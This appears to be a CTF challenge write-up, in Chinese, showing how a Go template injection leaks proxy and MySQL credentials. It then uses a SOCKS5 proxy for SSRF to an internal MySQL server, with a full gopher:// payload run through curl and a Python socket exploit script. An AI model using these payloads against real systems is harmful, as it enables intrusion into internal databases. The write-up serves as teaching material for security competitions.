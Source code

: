 {% raw %}

```
{{ .config.sqlConf }}
{{ .config.serviceConf }}

{{ range .config }}{{ . }}{{ end }}
```

{% endraw %}

获得敏感信息

```
socks5://202.119.201.199:40103

mysql://127.0.0.1:3306
user: iv4n
passwd:
database: ctf
table: flag_1s_here_got_me
```

很容易想到是MySQL SSRF，根据RFC1928

```
+----+-----+-------+------+----------+----------+
|VER | CMD |  RSV  | ATYP | DST.ADDR | DST.PORT |
+----+-----+-------+------+----------+----------+
| 1  |  1  | X'00' |  1   | Variable |    2     |
+----+-----+-------+------+----------+----------+
```

Socks代理实际是根据客户端控制报文的DST.ADDR与DST.PORT来与真实服务器建立TCP连接，接着双向转发数据，根据这一点，控制报文中填入内网IP即可进行SSRF

先利用工具生成Gopher payload

接着可利用`curl -x PROXY_URL`将Gopher流量传到:3306；也可自己手动控制Socks5报文传入流量；（当然直接proxychains挂代理后用mysql客户端连接也是可以的）

```
curl gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%69%76%34%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%26%00%00%00%03%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%63%74%66%2e%66%6c%61%67%5f%31%73%5f%68%65%72%65%5f%67%6f%74%5f%6d%65%01%00%00%00%01 -x "socks5://202.119.201.199:40103"
```



```python
# exp.py
import socket

s = socket.socket()
s.connect(('202.119.201.199', 40103))
s.send(b'\x05\x01\x00')
s.recv(1024)
s.send(b'\x05\x01\x00\x01\x7F\x00\x00\x01\x0c\xEA')
s.recv(1024)

```
